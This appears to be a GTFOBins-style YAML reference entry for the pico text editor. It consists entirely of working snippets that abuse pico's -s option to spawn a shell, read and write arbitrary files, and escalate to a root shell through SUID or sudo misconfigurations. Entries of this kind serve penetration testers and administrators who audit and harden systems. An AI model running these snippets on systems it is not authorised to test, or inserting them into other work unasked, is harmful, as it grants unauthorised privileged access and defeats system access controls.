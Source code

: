 ```yaml
---
name: pico
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        pico -s $TF /etc/hosts
        ^T
  file-write:
    - code: |
        pico file_to_write
        DATA
        ^O
  file-read:
    - code: pico file_to_read
  suid:
    - code: |
        TF=$(mktemp)
        echo 'exec sh -p' > $TF
        chmod +x $TF
        ./pico -s $TF /etc/hosts
        ^T
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        sudo pico -s $TF /etc/hosts
        ^T
---
```

